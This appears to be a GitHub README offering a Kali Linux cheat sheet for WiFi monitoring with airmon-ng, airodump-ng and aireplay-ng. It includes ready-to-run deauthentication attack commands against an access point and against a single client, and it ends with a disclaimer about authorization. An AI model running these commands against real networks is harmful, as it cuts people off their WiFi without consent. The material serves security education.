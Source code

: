 **The README.md file provides educational documentation on utilizing the airmon-ng tool within Kali Linux for WiFi monitoring and manipulation. It outlines a series of commands tailored for educational purposes, guiding users through the process of initiating monitor mode, capturing packets, and performing targeted attacks such as deauthentication. Each command is accompanied by a brief explanation, ensuring clarity and comprehension for users unfamiliar with these tools.**

**The documentation emphasizes the educational nature of the content and underscores the importance of obtaining proper authorization before attempting any actions. Additionally, it includes examples to illustrate the usage of each command, aiding users in understanding the practical application of the provided instructions.**


**This README serves as a valuable resource for individuals interested in learning about WiFi security and penetration testing using Kali Linux. It empowers users with foundational knowledge and practical insights while promoting ethical and responsible use of these tools for educational purposes.**





## Kali Linux WiFi Attack Commands
1. `ifconfig`
2. `iwconfig`
## Start the Wireless Interface in Monitor Mode
4. `airmon-ng start wlan0` (replace `wlan0` with your device name)
5. `airodump-ng wlan0` - Shows all networks around
6. `airodump-ng --channel 8 --bssid [MAC address] wlan0mon` - Shows devices connected to the selected WiFi network

## AIRODUMP-NG

- `airodump-ng --channel <channel> -bssid <BSSID> --write <file_name> <interface>`
  
  Example: `airodump-ng --channel 12 --bssid 40:30:20:10 --write test mon0`

## Deauthentication Attack

- `aireplay-ng --deauth <#packets> -a <AP> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 mon0`

## Target Attack

- `aireplay-ng --deauth <#packets> -a <AP> -c <target> <interface>`

  Example: `aireplay-ng --deauth 1000 -a 10:20:30:40 -c 00:AA:11:BB mon0`


Remember, unauthorized use of these commands for network intrusion or any unethical activities may be illegal. Always obtain proper authorization before conducting any penetration testing or security research. These commands are for educational purposes to understand the basics of WiFi monitoring and manipulation.
